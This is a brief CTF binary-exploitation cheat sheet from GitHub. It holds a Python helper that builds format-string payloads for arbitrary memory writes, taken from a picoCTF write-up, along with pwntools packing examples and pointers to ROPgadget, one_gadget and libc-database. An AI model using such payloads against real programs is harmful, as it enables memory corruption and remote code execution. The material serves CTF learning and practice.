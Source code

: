 # pwn-cheat-sheet

### Format string - write value into address
###### taken from https://github.com/sefi-roee/CTFs-Writeups/blob/master/picoCTF-2018/Binary/12-echo_back-500/solution.md
```python
def write_memory(address, value):
  v1 = (value & 0x0000FFFF) - 8
  v2 = (value >> 16) - (value & 0x0000FFFF)

  if v2 < 0:
    v2 += 0x00010000

  ret = p32(address) + p32(address + 2) + '%{}x'.format(v1) + '%7$hn'

  if v2 != 0:
    ret += '%{}x'.format(v2)

  ret += '%8$hn'

  return ret
  ```
### Pack (int to str)
###### taken from http://docs.pwntools.com/en/stable/util/packing.html
```
p32(0x12345678)         # 4 byte value
p64(0x1234567812345678) # 8 byte value
```

### Unpack (str to int)
###### taken from http://docs.pwntools.com/en/stable/util/packing.html
```
u = make_unpacker(32, endian='little', sign='unsigned') # 4 byte value
u = make_unpacker(64, endian='little', sign='unsigned') # 8 byte value
```

### ROPgadget
###### taken from https://github.com/JonathanSalwan/ROPgadget
This tool lets you search your gadgets on your binaries to facilitate your ROP exploitation. ROPgadget supports ELF, PE and Mach-O format on x86, x64, ARM, ARM64, PowerPC, SPARC and MIPS architectures.

### one_gadget
###### taken from https://github.com/david942j/one_gadget
Tool for finding one gadget RCE in libc

### libc-database
###### taken from https://github.com/niklasb/libc-database
Database of libc functions offsets
